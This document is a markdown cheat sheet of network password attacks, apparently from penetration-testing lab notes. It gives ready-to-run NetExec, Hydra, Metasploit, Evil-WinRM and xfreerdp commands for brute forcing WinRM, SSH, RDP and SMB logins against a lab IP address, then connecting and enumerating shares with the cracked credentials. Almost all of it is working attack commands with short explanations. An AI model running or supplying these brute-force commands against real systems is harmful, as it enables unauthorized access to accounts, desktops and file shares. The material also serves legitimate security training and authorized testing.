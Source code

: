 ```yaml
---
title: Network Password Attacks
category: Access
tags: [network, winrm, ssh, smb, rdp, brute]
tools: ['netexec', 'evil-winrm', 'hydra', 'msfconsole', 'xfreerdp']
---
```


# Network Password Attacks

Commands and tools for brute forcing network services (WinRM, SSH, RDP, SMB) to gain initial access.  
Each section explains the purpose and how the commands are typically used.

---

## Tools

```bash
sudo apt-get -y install netexec
sudo gem install evil-winrm
```

---

## WinRM – [NetExec](https://github.com/Pennyw0rth/NetExec)

WinRM often exposes remote PowerShell access on Windows systems.  
With valid credentials, [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) provides an interactive session.

```bash
# Brute force with NetExec
netexec winrm 10.129.42.197 -u user.list -p password.list

# Connect interactively once creds are valid
evil-winrm -i 10.129.42.197 -u user -p password
```

---

## SSH – Hydra

SSH is a common brute force target if password authentication is enabled.  
Hydra can quickly attempt user/pass combinations.

```bash
# Brute force SSH with Hydra
hydra -L user.list -P password.list ssh://10.129.42.197

# Connect manually once creds are found
ssh user@10.129.42.197
```

---

## RDP – Hydra

RDP brute forcing is slower but can provide full desktop access if successful.  

```bash
# Brute force RDP with Hydra
hydra -L user.list -P password.list rdp://10.129.42.197

# Connect interactively with xfreerdp
xfreerdp /v:10.129.42.197 /u:user /p:password
```

---

## SMB – Hydra or Metasploit

SMB shares often reveal sensitive data. Weak creds can be brute forced with Hydra or Metasploit.

```bash
# Hydra brute force
hydra -L user.list -P password.list smb://10.129.42.197

# Metasploit module
msf6 > use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list

# Enumerate shares with NetExec
netexec smb 10.129.42.197 -u "user" -p "password" --shares

# Access a share manually
smbclient -U user \\10.129.42.197\SHARENAME
```